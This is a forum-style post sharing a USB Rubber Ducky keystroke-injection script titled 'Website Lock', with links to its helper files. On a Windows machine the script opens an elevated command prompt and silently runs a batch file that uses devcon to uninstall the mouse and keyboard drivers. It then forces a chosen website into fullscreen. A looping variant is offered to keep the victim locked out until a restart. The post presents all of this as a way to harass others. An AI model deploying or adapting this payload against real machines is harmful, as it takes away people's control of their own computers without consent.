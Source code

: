 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Side note: If you want to be a bastard and prevent them from using any mouse and keyboard at all until they restart here is the link to a looping version of the batch file: https://www.dropbox.com/s/czlyh93ga3myb8m/TheRealAnnoyance.bat?dl=0
It continually does a devcon command to uninstall all mouse and keyboard drivers--even if they were just installed.
To use it just replace the other one with this one. Mind you: if you run this on your computer you WILL NOT be able to do anything unless you restart you computer or you have a weird-ass way of controlling your computer without a mouse and keyboard. (Telekinesis?)

Code:
```
REM Title: Website Lock
REM Author: Audiack
REM Target Ducky Encoder: 2.6.2
REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
REM Info:
REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
REM     This requires the user to plug a USB drive in BEFORE the ducky is plugged in.
REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
REM     Make sure the files are in the root of a drive called DUCKY.
REM     Twin duck works well with this. It is what I used when I was testing it. 
REM File Descriptions:
REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
REM     If you are going to modify the website link as a youtube video, it needs to be in this format: https://www.youtube.com/embed/sCNrK-n68CM?rel=0&autoplay=1&loop=1
REM     Find the youtube video you want, then take the part after watch?v= and put it in place of sCNrK-n68CM in the above link.
DELAY 3000
CTRL ESC
DELAY 700
STRING cmd
CTRL-SHIFT ENTER
DELAY 3000
ALT Y
DELAY 700

STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
ENTER
DELAY 1200
STRING cd /d %myd%
ENTER

DELAY 1000
STRING type "WebsiteLink.txt" | clip
ENTER
DELAY 100
STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
ENTER
DELAY 400

REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence the above line of code: 'type "WebsiteLink.txt" | clip'
REM Title: Youtube Roller
REM Author: Aprizm
REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
DELAY 200
GUI r
DELAY 200
CTRL V
ENTER
DELAY 1000
F11
```